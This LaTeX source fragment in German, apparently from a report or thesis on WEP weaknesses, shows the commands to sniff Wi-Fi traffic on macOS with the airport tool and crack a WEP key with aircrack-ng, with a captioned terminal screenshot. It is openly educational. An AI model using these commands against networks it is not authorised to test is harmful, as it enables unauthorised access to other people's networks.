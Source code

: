 
Der Sniffer kann auch direkt über die Kommandozeile ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
sudo airport en0 sniff <CHANNEL>
\end{lstlisting}

Anschliessend können die Daten, vom \textit{Sniffer} mit dem \textit{aircrack-ng} ausgewertet werden:
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng -b 00:0f:cc:b0:1a:c8 /private/tmp/airportSniff*.cap
\end{lstlisting}

So wird einem, falls genügend \gls{ivLabel}'s vorhanden sind, der \gls{wepLabel} ausgegeben (Dauer: 2 Sek.).
\begin{figure}[H]
	\centering
	\includegraphics[width=1.0\textwidth]{images/wep/aircrack-ng.png}
	\caption[aircrack-ng: WEP Schlüssel knacken -- Terminalausgabe]{aircrack-ng: \gls{wepLabel} Schlüssel knacken -- Terminalausgabe}
\end{figure}
